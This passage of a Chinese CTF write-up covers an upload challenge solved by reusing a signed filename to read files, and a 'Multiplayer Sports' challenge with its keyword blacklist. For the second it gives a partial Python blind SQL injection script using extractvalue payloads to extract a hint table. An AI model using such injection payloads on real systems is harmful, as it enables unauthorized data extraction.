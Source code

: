![image968](C:\Users\蔡建斌\AppData\Roaming\Typora\typora-user-images\image-20200523090430266.png)

可能存在反序列化

和文件内容无关

上传文件后发现有个filename字段，show界面是直接出现图片的base64编码，如果我们能控制filename字段就有可能任意读取

当唯一麻烦的是，文件名后面有个md5校验值

但是当我们直接上传的时候她会生成一个，哪怕没上传成功

![image1220](https://raw.githubusercontent.com/Explorersss/photo/master/20200523095410.png)

直接拿来用访问show.php就拿到flag了



##  Multiplayer Sports 

 Powered by beego 1.12.1 

http://183.129.189.60:10112/?by=desc

黑名单:`',",!,#,$,&,+,;,<,=,>,?,@,\,|,if,exp,info,ascii,ord,sys,count,order,by,author,where`

给了个hint:`table`,不知道啥意思

```python

import requests
import time
import string


def sqlinj(num):

    burp0_url = "http://183.129.189.60:10117/"
    param={"by":",extractvalue(1,(case when ((select conv(right(left(hex( (select group_concat(a,b) from (select 1`a`,2`b` union select * from hint )`ff` ) ),{POS}),2),16,10)  )-{GUESS}) then 1 ELSE user() end))".format(POS=pos,GUESS=num)}
    burp0_cookies = {"PHPSESSID": "Q/+BAwEBBVVzZXJzAf+CAAEEAQhVc2VybmFtZQEMAAEIUGFzc3dvcmQBDAABCEZpbGVuYW1lAQwAAQRTaWduAQwAAABj/4IBA2FhYQEDYmJiATIuL3VwbG9hZHMvM2UxMDRjYWU2NDAxZDI1NzY2NzZiMmM2ODk3MzE1NGQvcTEuanBnASBhMjVhY2E4OGZkOGYzYjYyMTkyZTYxNzgwMDYzNWQ4NAA=", "_xsrf": "azI3QUxLb3JwTDh5MFI5aXlPM1ZOQ2Y4UnNUSkVnY3E=|1590202537824785027|837f32c5f7f2b6c2a5ad0ffbcc803dff791bb5a078a0b68ea40428f37dfdf2ae"}
    burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    r=requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,params=param)
    time.sleep(0.5)
    print(param)
    if "/static/img/dundundun.gif" in r.text:
        print("filter ",param)
        exit()
    if "y1ng" in r.text:
        
        return False
    else :
        return True
    



#database: ms
#mysql,sys
```